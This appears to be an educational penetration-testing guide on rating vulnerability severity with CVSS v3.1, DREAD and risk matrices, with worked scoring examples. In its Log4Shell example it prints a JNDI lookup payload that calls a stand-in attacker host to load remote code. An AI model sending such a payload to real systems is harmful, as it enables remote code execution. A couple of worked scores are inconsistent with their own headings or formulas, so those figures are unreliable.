


# Risk Rating Methodologies

> **Difficulty:** Intermediate | **Category:** Penetration Testing

---

## Why Risk Rating Matters

Every vulnerability in a penetration test report carries a risk rating. That rating determines whether a finding gets fixed this week or six months from now — or ever. Incorrect risk ratings have real consequences:

- **Over-rating** (calling everything Critical) causes alert fatigue. Clients stop trusting severity labels. Real Critical findings get ignored because "everything is always Critical."
- **Under-rating** (conservatively rating dangerous findings as Medium) causes genuinely critical vulnerabilities to sit in a remediation backlog for months while attackers exploit them.

The goal is accurate, defensible ratings that reflect the actual business risk — not the CVSS score in isolation.

> **Note:** CVSS measures **technical severity** in an idealized environment. Risk = Likelihood × Impact. A CVSS 9.8 vulnerability on an isolated test server with no network connectivity may represent lower real-world business risk than a CVSS 6.5 vulnerability on a public-facing API handling financial transactions.

---

## CVSS v3.1 Full Breakdown

**CVSS (Common Vulnerability Scoring System)** version 3.1 is the industry standard for scoring vulnerability severity. It produces a score from 0.0 to 10.0 based on eight base metrics grouped into two categories: Exploitability and Impact.



---

### Base Score — Exploitability Metrics

These metrics describe how the vulnerability is accessed and exploited.

#### Attack Vector (AV)

Reflects the context by which the vulnerability can be exploited.

| Value | Abbreviation | Weight | Meaning |
|---|---|---|---|
| **Network** | AV:N | 0.85 | Exploitable remotely over the network with no physical proximity required. Any internet-facing vulnerability. Most web vulnerabilities use this value. |
| **Adjacent** | AV:A | 0.62 | Exploitable by an attacker on the same local network, Bluetooth range, or network segment. VLAN hopping, DHCP attacks, ARP poisoning. |
| **Local** | AV:L | 0.55 | Exploitable with local access to the system (logged-in user, SSH session). Privilege escalation vulnerabilities, local file read flaws. |
| **Physical** | AV:P | 0.20 | Requires physical access to the device. Cold boot attacks, hardware tampering, accessing an unlocked workstation. |

#### Attack Complexity (AC)

Describes whether the attack requires special conditions to succeed, beyond basic access.

| Value | Abbreviation | Weight | Meaning |
|---|---|---|---|
| **Low** | AC:L | 0.77 | No special conditions required. The attacker can reliably exploit the vulnerability at will. Most basic injection vulnerabilities. |
| **High** | AC:H | 0.44 | Success depends on conditions outside the attacker's control: race conditions, specific system configuration, gathering information from a previous step, or requiring the victim to perform an unlikely action. |

> **Note:** Attack Complexity is not about technical skill — it is about **controllability**. A complex exploit executed reliably is still AC:L if the attacker can trigger it on demand. A simple vulnerability that only works when a race condition is won is AC:H.

#### Privileges Required (PR)

The level of privileges an attacker must already possess before exploiting the vulnerability.

| Value | Abbreviation | Weight (Scope Unchanged) | Weight (Scope Changed) | Meaning |
|---|---|---|---|---|
| **None** | PR:N | 0.85 | 0.85 | No prior access required. Unauthenticated exploitation. |
| **Low** | PR:L | 0.62 | 0.68 | Basic user-level access required. Any authenticated user can trigger the vulnerability. |
| **High** | PR:H | 0.27 | 0.50 | Administrative or high-privilege access required before exploitation. |

Note the special case: when **Scope is Changed**, the weights for Low and High change. This reflects that a change of scope amplifies the value of any privileges obtained.

#### User Interaction (UI)

Whether the vulnerability requires a human victim to perform an action for exploitation to succeed.

| Value | Abbreviation | Weight | Meaning |
|---|---|---|---|
| **None** | UI:N | 0.85 | No user interaction required. The attacker can exploit the vulnerability directly. Server-side vulnerabilities, unauthenticated API flaws. |
| **Required** | UI:R | 0.62 | A user must click a link, visit a page, open a file, or otherwise interact. Reflected XSS, phishing-dependent attacks, malicious document execution. |

#### Scope (S)

One of the most misunderstood CVSS metrics. Scope describes whether the vulnerability's impact is limited to the vulnerable component or can affect other components.

| Value | Abbreviation | Meaning |
|---|---|---|
| **Unchanged** | S:U | The exploited vulnerability affects only the resources managed by the same security authority. Compromise stays within the component's security domain. |
| **Changed** | S:C | The exploited vulnerability can affect resources beyond the security authority of the vulnerable component. The attacker can reach a different system, process, or user context. |

**Examples of Scope Changed (S:C):**
- XSS: vulnerability is in the web application, but impact is on the victim's browser (different security domain) → S:C
- Hypervisor escape: vulnerability in a VM, but impact reaches the host OS → S:C
- Container escape: vulnerability in a container, but impact reaches the host → S:C
- SSRF to internal metadata service: vulnerability in web app, reaches AWS metadata API → S:C

**Examples of Scope Unchanged (S:U):**
- SQL injection: vulnerability is in the web app, impact stays within the database which is under the same authority → S:U
- Local privilege escalation on a single server → S:U (stays on same host)
- DoS that only affects the vulnerable service → S:U

---

### Base Score — Impact Metrics

These metrics describe the consequences of a successful exploit on the **impacted component** (which may differ from the vulnerable component when Scope is Changed).

#### Confidentiality Impact (C)

The impact on the confidentiality of information accessible to the vulnerable component.

| Value | Abbreviation | Weight | Meaning |
|---|---|---|---|
| **None** | C:N | 0.00 | No confidentiality impact. Availability-only attacks, non-reading vulnerabilities. |
| **Low** | C:L | 0.22 | Limited confidentiality loss. Attacker gains access to some restricted data, but the scope of the exposed data is limited. |
| **High** | C:H | 0.56 | Total confidentiality loss. Attacker gains access to all data in the vulnerable component, or specifically high-value data. |

#### Integrity Impact (I)

The impact on the integrity of data managed by the vulnerable component.

| Value | Abbreviation | Weight | Meaning |
|---|---|---|---|
| **None** | I:N | 0.00 | No integrity impact. Read-only vulnerabilities. |
| **Low** | I:L | 0.22 | Attacker can modify some data, but the scope or consequence is limited. Not all data can be modified. |
| **High** | I:H | 0.56 | Total integrity loss. Attacker can modify any files or data in the vulnerable component, or the modification has serious consequences on critical systems. |

#### Availability Impact (A)

The impact on the availability of the vulnerable component.

| Value | Abbreviation | Weight | Meaning |
|---|---|---|---|
| **None** | A:N | 0.00 | No availability impact. Vulnerability does not affect service availability. |
| **Low** | A:L | 0.22 | Reduced performance or some interruption to resource availability. Attacker cannot fully deny service. |
| **High** | A:H | 0.56 | Total availability loss. Attacker can fully deny access to the resource through a DoS condition. |

---

### CVSS Base Score Formula

The CVSS v3.1 base score formula uses a complex calculation. Understanding the general approach is sufficient for pentesters; automated calculators handle the math.

```
ISCBase = 1 - [(1 - ImpactConf) × (1 - ImpactInteg) × (1 - ImpactAvail)]

If Scope is Unchanged:
  Impact = 6.42 × ISCBase

If Scope is Changed:
  Impact = 7.52 × [ISCBase - 0.029] - 3.25 × [ISCBase - 0.02]^15

Exploitability = 8.22 × AttackVector × AttackComplexity × PrivilegesRequired × UserInteraction

If Impact = 0:
  Base Score = 0

If Scope is Unchanged:
  Base Score = Roundup(Min[(Impact + Exploitability), 10])

If Scope is Changed:
  Base Score = Roundup(Min[1.08 × (Impact + Exploitability), 10])
```

**Step-by-step calculation for a Network SQLi (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H):**

```
1. Gather metric weights:
   AV:N = 0.85, AC:L = 0.77, PR:N = 0.85, UI:N = 0.85
   C:H = 0.56, I:H = 0.56, A:H = 0.56, Scope = Unchanged

2. Calculate ISCBase:
   ISCBase = 1 - [(1 - 0.56) × (1 - 0.56) × (1 - 0.56)]
           = 1 - [0.44 × 0.44 × 0.44]
           = 1 - 0.085
           = 0.915

3. Calculate Impact (Scope Unchanged):
   Impact = 6.42 × 0.915 = 5.875

4. Calculate Exploitability:
   Exploitability = 8.22 × 0.85 × 0.77 × 0.85 × 0.85
                  = 8.22 × 0.472
                  = 3.88

5. Base Score = Roundup(Min[5.875 + 3.88, 10])
              = Roundup(Min[9.755, 10])
              = Roundup(9.755)
              = 9.8
```

---

## DREAD Model

DREAD is an older risk scoring model used by Microsoft and some organizations that prefer a more qualitative approach. It scores five categories on a 1–10 scale.

| Category | Score 1 | Score 5 | Score 10 |
|---|---|---|---|
| **D — Damage Potential** | Almost no damage if exploited | Exposes sensitive data, some system damage | Complete system or data destruction, full compromise |
| **R — Reproducibility** | Very hard to reproduce; requires special circumstances | Can be reproduced by a skilled attacker with effort | Trivially reproducible; any script kiddie can do it |
| **E — Exploitability** | Requires expert knowledge, custom tools, physical access | Requires some technical skill and specific tools | Available exploit code, point-and-click exploitation |
| **A — Affected Users** | Individual admin account only | A subset of users, specific role | All users or all data in the system |
| **D — Discoverability** | Requires deep source code review or insider knowledge | Findable through moderate research or scanning | Publicly documented, visible in HTTP responses |

**DREAD Total Score = (D + R + E + A + D) / 5**

### DREAD Calculation — SQL Injection on Public Login

```
Damage Potential:  9 — Can extract entire user database including PII and payment data
Reproducibility:   10 — sqlmap fully automates exploitation in minutes
Exploitability:    9 — Free tools, no skill required beyond running sqlmap
Affected Users:    10 — All 87,000 users' data exposed
Discoverability:   7 — Login forms are always tested; single-quote test reveals error

DREAD Score = (9 + 10 + 9 + 10 + 7) / 5 = 45 / 5 = 9.0 — High/Critical
```

### DREAD Calculation — Reflected XSS Requiring Login

```
Damage Potential:  6 — Session hijacking possible, but only for the logged-in victim
Reproducibility:   7 — Reproducible but requires crafting a link and tricking victim
Exploitability:    6 — Requires social engineering; victim must click the link
Affected Users:    4 — Only users who click the attacker's crafted link are affected
Discoverability:   6 — Requires finding the reflected parameter; moderate effort

DREAD Score = (6 + 7 + 6 + 4 + 6) / 5 = 29 / 5 = 5.8 — Medium
```

> **Note:** DREAD is subjective and can be gamed. Two assessors scoring the same vulnerability may reach different scores. CVSS v3.1 is more objective and is the preferred standard for professional penetration testing reports.

---

## Qualitative Risk Rating Scale

| Severity | CVSS Range | Color Code | What It Means | Example Vulnerabilities | Typical Remediation SLA |
|---|---|---|---|---|---|
| **Critical** | 9.0–10.0 | 🔴 Red | Exploitation is trivial and impact is catastrophic. Unauthenticated remote code execution, full database dumps from public endpoints. Active exploitation is likely if exposed. | Log4Shell (CVE-2021-44228), unauthenticated RCE, SQL injection on login enabling full DB dump, hardcoded admin credentials on public service | **Immediate** — Within 24–72 hours. Emergency change process. |
| **High** | 7.0–8.9 | 🟠 Orange | Exploitation is straightforward and impact is significant. Likely to be exploited by motivated attackers. Requires some precondition (authentication, local access). | Authenticated SQL injection, stored XSS enabling session hijacking, IDOR exposing all user data, SSRF reaching cloud metadata, path traversal to sensitive files | **Urgent** — Within 7–30 days. Priority remediation. |
| **Medium** | 4.0–6.9 | 🟡 Yellow | Exploitation requires specific conditions, moderate attacker skill, or impact is limited. Real risk but not immediate danger. | Reflected XSS requiring user interaction, CSRF on sensitive actions, open redirect enabling phishing, weak cipher suites on TLS, missing security headers | **Standard** — Within 30–90 days. Next release cycle. |
| **Low** | 0.1–3.9 | 🟢 Green | Limited exploitation potential due to high barriers, very limited impact, or significant attacker constraints. | Clickjacking on non-sensitive pages, verbose error messages, directory listing on static content, outdated non-exploitable software | **Backlog** — Within 90–180 days. Address in upcoming security review. |
| **Informational** | N/A | 🔵 Blue | No direct exploitability, but represents a security best practice deviation that could contribute to risk in combination with other issues. | Missing Referrer-Policy header, HTTP server banner disclosure, lack of HSTS preloading, self-signed certificates on internal services | **Advisory** — Consider addressing; not a measured risk. |

---

## Risk = Likelihood × Impact

The **risk matrix** approach considers two dimensions independently:
- **Likelihood:** How probable is exploitation in the real world?
- **Impact:** How severe are the consequences if exploitation occurs?

### 5×5 Risk Matrix

| | **Impact 1 (Minimal)** | **Impact 2 (Minor)** | **Impact 3 (Moderate)** | **Impact 4 (Major)** | **Impact 5 (Critical)** |
|---|---|---|---|---|---|
| **Likelihood 5 (Certain)** | Medium | High | High | Critical | Critical |
| **Likelihood 4 (Likely)** | Low | Medium | High | High | Critical |
| **Likelihood 3 (Possible)** | Low | Medium | Medium | High | High |
| **Likelihood 2 (Unlikely)** | Info | Low | Medium | Medium | High |
| **Likelihood 1 (Rare)** | Info | Info | Low | Medium | Medium |

### Determining Likelihood

| Factor | Score 1 (Low Likelihood) | Score 3 | Score 5 (High Likelihood) |
|---|---|---|---|
| **Exploit availability** | No known exploit; requires novel research | PoC exists but complex | Working exploit in Metasploit/public |
| **Skill required** | Nation-state level expertise | Intermediate professional attacker | Script kiddie with free tools |
| **Access required** | Physical access to specific hardware | Authenticated internal user | Unauthenticated over internet |
| **Exposure** | Completely isolated system, no external access | Limited access (VPN required) | Publicly internet-facing |
| **Known exploitation** | No exploitation in the wild | Occasionally exploited | Actively exploited (CISA KEV list) |

### Determining Impact

| Factor | Score 1 (Low Impact) | Score 3 | Score 5 (High Impact) |
|---|---|---|---|
| **Data sensitivity** | Public data, already published | Internal business data | PII, PHI, PCI, trade secrets |
| **Scope of exposure** | Single record, single user | Department or team data | All customer/user data |
| **System criticality** | Development/test environment | Internal productivity tool | Core business system (payments, auth) |
| **Business function** | Non-critical function | Important but redundant process | Critical single point of failure |
| **Recovery difficulty** | Minutes to recover, no data loss | Hours, limited data loss | Days/weeks, permanent data loss |
| **Regulatory implication** | None | Minor reporting requirements | Mandatory breach notification, fines |

---

## Business Context Adjusts Risk

CVSS scores are calculated in a vacuum without considering the specific environment. Reporting should always contextualize CVSS scores against business reality.

### Example 1 — SQL Injection, Context Dependent

| Scenario | CVSS Score | Business Risk | Reasoning |
|---|---|---|---|
| SQL injection on public login form (`acmecorp.com/login`) | 9.8 Critical | **Critical** | Any attacker on the internet can exploit this; 87,000 customer records exposed |
| SQL injection on internal admin panel (requires VPN + admin role) | 9.8 Critical | **High** | CVSS is the same, but only 5 administrators can reach this endpoint; attack requires VPN compromise first |
| SQL injection on read-only reporting database containing no PII | 7.5 High | **Medium** | Data exposed has no regulatory or business-critical value; integrity not affected |

### Example 2 — Default Credentials, Context Dependent

| Scenario | CVSS Score | Business Risk | Reasoning |
|---|---|---|---|
| Default creds (admin:admin) on public-facing Tomcat Manager | 9.8 Critical | **Critical** | Any attacker can access, deploy malicious WAR, achieve RCE on production |
| Default creds on dev environment Tomcat, accessible only from dev VLAN | 9.8 Critical | **High** | Technical risk is same, but business impact is limited by network segmentation |
| Default creds on an isolated lab server with no network access | 9.8 Critical | **Low** | Effectively impossible to exploit remotely; physical access required |

### Example 3 — RCE, Context Dependent

| Scenario | CVSS Score | Business Risk | Reasoning |
|---|---|---|---|
| RCE via unpatched Apache web server on customer-facing website | 9.8 Critical | **Critical** | Direct path to all web application data and potential pivot |
| RCE on isolated automated testing server with no sensitive data | 9.8 Critical | **Medium** | RCE confirmed, but the system has no sensitive data and no network paths to production |

### Documenting Adjusted Ratings

When adjusting risk rating from the raw CVSS score, document the reasoning explicitly:

```
CVSS Base Score: 9.8 (Critical)
Adjusted Risk Rating: High

Adjustment Rationale: The CVSS score reflects the technical severity of this 
vulnerability. However, the affected endpoint (https://admin.acmecorp.com/db-admin) 
requires connection from the corporate VPN and a valid admin-level session. This 
reduces the likelihood of unauthenticated exploitation from 'Certain' to 'Unlikely,' 
lowering the adjusted business risk to High. Note: This adjustment does not reduce 
the urgency of remediation — a separate VPN compromise or admin session hijacking 
would restore full exploitability.
```

---

## Over-rating vs Under-rating

| Mistake | Example | Consequence |
|---|---|---|
| Rating all vulnerabilities Critical | Calling a reflected XSS on an internal tool Critical | Alert fatigue; clients ignore severity ratings; real Critical findings deprioritized |
| Rating based on CVSS without context | SQL injection on isolated dev database rated 9.8 with no adjusted note | Wastes remediation resources; dev team focuses on wrong priority |
| Under-rating to avoid client friction | Calling an unauthenticated RCE "High" to avoid urgent escalation | Client delays remediation; real exploitation occurs |
| Rating based on exploit complexity without considering tools | "The exploit is complex, so it's Medium" — ignoring that Metasploit has a module | Misrepresents real-world exploitability; attackers use automated tools |
| Not updating ratings after client context | Leaving prod database SQL injection as Critical after learning it's read-only | Credibility damage when client points out the miscategorization |
| Treating all injection as Critical | Calling a format string in a log message Critical | Not all injection is equally exploitable; CVSS metrics define the difference |
| Copying scanner severity ratings | Nessus reports everything, including info findings, as High | Scanners over-rate; manual verification and business context always required |

---

## CVSS Calculator Walkthrough — 3 Real Examples

### Example 1: Log4Shell (CVE-2021-44228) — Score: 10.0

Log4Shell is a remote code execution vulnerability in the Apache Log4j 2 library. When a Java application logs an attacker-controlled string, Log4j processes JNDI lookup expressions like `${jndi:ldap://attacker.com/exploit}`, making an outbound connection and loading attacker-controlled Java code.

| Metric | Value | Justification |
|---|---|---|
| **Attack Vector** | Network (0.85) | Exploitable from anywhere on the internet by including the payload in any logged input (User-Agent, username, search field, etc.) |
| **Attack Complexity** | Low (0.77) | No race conditions, no special configuration needed. Simply send the payload string. Exploit is deterministic. |
| **Privileges Required** | None (0.85) | No authentication required. Any request that reaches a vulnerable application and gets logged is sufficient. |
| **User Interaction** | None (0.85) | The server processes the payload automatically when logging occurs. No victim action needed. |
| **Scope** | Changed (modifier) | Vulnerability is in Log4j (within the application), but execution occurs in a separate Java process that can access the OS, file system, and other systems. The impact escapes the vulnerable component's security boundary. |
| **Confidentiality** | High (0.56) | RCE allows reading all files, environment variables, secrets, and credentials on the server. |
| **Integrity** | High (0.56) | RCE allows writing files, installing backdoors, modifying application code, or destroying data. |
| **Availability** | High (0.56) | RCE allows killing processes, consuming resources, or destroying the system. |

**Vector String:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`

**Score Calculation:**
```
ISCBase = 1 - [(1-0.56)(1-0.56)(1-0.56)] = 1 - [0.085] = 0.915
Impact (Scope Changed) = 7.52 × [0.915 - 0.029] - 3.25 × [0.915 - 0.02]^15 ≈ 5.87
Exploitability = 8.22 × 0.85 × 0.77 × 0.85 × 0.85 = 3.88
Base Score = Roundup(Min[1.08 × (5.87 + 3.88), 10]) = Roundup(Min[10.53, 10]) = 10.0
```

**Final Score: 10.0 Critical**

---

### Example 2: Stored XSS on Authenticated User Profile — Score ~6.1

This stored XSS exists on an authenticated user's profile bio field. The payload executes when any other user views the profile.

| Metric | Value | Justification |
|---|---|---|
| **Attack Vector** | Network (0.85) | Exploitable over the internet — any user with a browser can view a profile. |
| **Attack Complexity** | Low (0.77) | No special conditions needed. The payload is stored and fires consistently. |
| **Privileges Required** | Low (0.62/0.68) | Attacker needs a user account to set their bio. Basic authentication required. |
| **User Interaction** | Required (0.62) | A victim must view the attacker's profile page for the payload to execute. |
| **Scope** | Changed | The XSS is in the web application, but the payload executes in the victim's browser — a different security domain. |
| **Confidentiality** | Low (0.22) | JavaScript can access cookies (if not HttpOnly), local storage, and page content — limited disclosure. |
| **Integrity** | Low (0.22) | Can modify page content, submit forms on the victim's behalf — limited modification capability. |
| **Availability** | None (0.00) | XSS generally does not affect availability. |

**Vector String:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N`

**Score: 5.4 Medium**

> **Note:** If the session cookie is NOT HttpOnly and the XSS can steal session tokens, consider upgrading C to High, which would push the score toward 8.8 High. Always evaluate impact against the actual impact achieved in testing, not the theoretical maximum.

---

### Example 3: Local Privilege Escalation via Physical Access — Score ~6.8

An attacker with physical access to an unlocked workstation can use a DMA attack or boot from USB to extract local password hashes and escalate to administrator.

| Metric | Value | Justification |
|---|---|---|
| **Attack Vector** | Physical (0.20) | Requires physical presence at the machine. Cannot be exploited remotely. |
| **Attack Complexity** | Low (0.77) | Once physical access is obtained, the attack is deterministic and well-documented. |
| **Privileges Required** | None (0.85) | The physical attacker has no account on the machine before exploitation. |
| **User Interaction** | None (0.85) | No interaction from a logged-in user needed. The attacker acts on the physical hardware. |
| **Scope** | Unchanged | Compromise stays on the same workstation. No other systems affected by this single exploit. |
| **Confidentiality** | High (0.56) | Full admin access means all local files, cached credentials, and browser secrets are accessible. |
| **Integrity** | High (0.56) | Can install malware, modify system files, create backdoor accounts. |
| **Availability** | High (0.56) | Can destroy data, disable the OS, permanently brick firmware. |

**Vector String:** `CVSS:3.1/AV:P/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

```
ISCBase = 1 - [(1-0.56)(1-0.56)(1-0.56)] = 0.915
Impact (Scope Unchanged) = 6.42 × 0.915 = 5.87
Exploitability = 8.22 × 0.20 × 0.77 × 0.85 × 0.85 = 0.915
Base Score = Roundup(Min[5.87 + 0.915, 10]) = Roundup(6.785) = 6.8
```

**Final Score: 6.8 Medium**

This illustrates how a devastating physical attack (full machine compromise) scores as Medium because the AV:P metric reflects the significant barrier of requiring physical access. This is appropriate — organizations should prioritize remote exploitation vulnerabilities higher than scenarios requiring physical proximity.

---

## How Clients Respond to Ratings

| Severity | Typical Client Reaction | Realistic Remediation Timeline | Escalation Path |
|---|---|---|---|
| **Critical** | "We need an emergency call." / Immediate escalation to CISO and CTO | 24–72 hours for mitigation, 1–7 days for full fix | Emergency change board, on-call engineers |
| **High** | "We'll prioritize this sprint." / Security team creates priority tickets | 7–30 days | Sprint planning, security team involvement |
| **Medium** | "Added to the backlog." / Scheduled for next release cycle | 30–90 days | Standard ticket process, monthly security review |
| **Low** | "We'll get to it." / May remain in backlog indefinitely | 90–180 days | Quarterly security review |
| **Informational** | "Good to know." / May never be addressed | No SLA | Annual review consideration |

> **Warning:** A common pattern is clients treating all findings as Medium during initial triage to reduce emergency response burden. Push back if Critical or High findings are downgraded without valid business context justification. Document your disagreement in writing if you cannot reach consensus.

---

## Risk Rating Decision Tree



---

## CVSS Metric Weight Reference Table

| Metric | Value | Abbreviation | Weight |
|---|---|---|---|
| Attack Vector | Network | AV:N | 0.85 |
| Attack Vector | Adjacent | AV:A | 0.62 |
| Attack Vector | Local | AV:L | 0.55 |
| Attack Vector | Physical | AV:P | 0.20 |
| Attack Complexity | Low | AC:L | 0.77 |
| Attack Complexity | High | AC:H | 0.44 |
| Privileges Required | None | PR:N | 0.85 |
| Privileges Required | Low (S:U) | PR:L | 0.62 |
| Privileges Required | Low (S:C) | PR:L | 0.68 |
| Privileges Required | High (S:U) | PR:H | 0.27 |
| Privileges Required | High (S:C) | PR:H | 0.50 |
| User Interaction | None | UI:N | 0.85 |
| User Interaction | Required | UI:R | 0.62 |
| Confidentiality Impact | None | C:N | 0.00 |
| Confidentiality Impact | Low | C:L | 0.22 |
| Confidentiality Impact | High | C:H | 0.56 |
| Integrity Impact | None | I:N | 0.00 |
| Integrity Impact | Low | I:L | 0.22 |
| Integrity Impact | High | I:H | 0.56 |
| Availability Impact | None | A:N | 0.00 |
| Availability Impact | Low | A:L | 0.22 |
| Availability Impact | High | A:H | 0.56 |
